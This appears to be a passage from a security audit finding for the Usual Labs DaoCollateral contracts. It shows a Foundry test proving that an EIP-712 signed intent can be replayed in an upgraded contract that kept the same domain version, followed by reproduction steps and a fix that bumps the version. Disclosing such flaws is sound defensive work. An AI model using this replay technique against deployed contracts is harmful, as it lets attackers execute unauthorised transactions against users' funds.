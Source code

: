 ```solidity
    function setUp() public {
        daoV1 = new DaoCollateralV1();
        daoV1.initialize();

        daoV2 = new DaoCollateralV2();
        daoV2.initializeV1();
    }

    function testReplayAttack() public {
        // Prepare off-chain signed message for V1
        uint256 amount = 1000;
        uint256 nonce = 0;
        uint256 deadline = block.timestamp + 1 days;

        bytes32 structHash = keccak256(abi.encode(daoV1.INTENT_TYPEHASH(), user, amount, nonce, deadline));
        bytes32 digest = daoV1._hashTypedDataV4(structHash);

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(privateKey, digest);

        // Execute intent in DaoCollateralV1
        daoV1.swapRWAtoStbcIntent(user, amount, nonce, deadline, v, r, s);
        assertEq(daoV1.nonces(user), 1);

        // Replay attack in DaoCollateralV2
        daoV2.swapRWAtoStbcIntent(user, amount, nonce, deadline, v, r, s); // Should not revert
        assertEq(daoV2.nonces(user), 1); // Replay succeeded
    }
}
```
1. Deploy `DaoCollateralV1` and initialize it with EIP-712 `version = "1"`.
2. Deploy `DaoCollateralV2`, but mistakenly retain the same EIP-712 `version = "1"` in its `initializeV1()` function.
3. The user signs an off-chain intent valid for `DaoCollateralV1`.
4. The intent is successfully executed in `DaoCollateralV1`.
5. The same intent is replayed and successfully executed in `DaoCollateralV2` because the domain separator remains unchanged across versions.

The test will pass, demonstrating that the same off-chain signature is valid in both `DaoCollateralV1` and `DaoCollateralV2`, which confirms the replay attack vulnerability.

### Mitigation

In initializeV1, initialize with a new version (`"2"`):

https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/main/pegasus/packages/solidity/src/daoCollateral/DaoCollateral.sol#L323

```diff
-        __EIP712_init_unchained("DaoCollateral", "1");
+        __EIP712_init_unchained("DaoCollateral", "2");
```
This ensures a unique domain separator, invalidating old signatures.

If integrating with third-party services, ensure they handle domain separator changes securely and avoid replay risks.
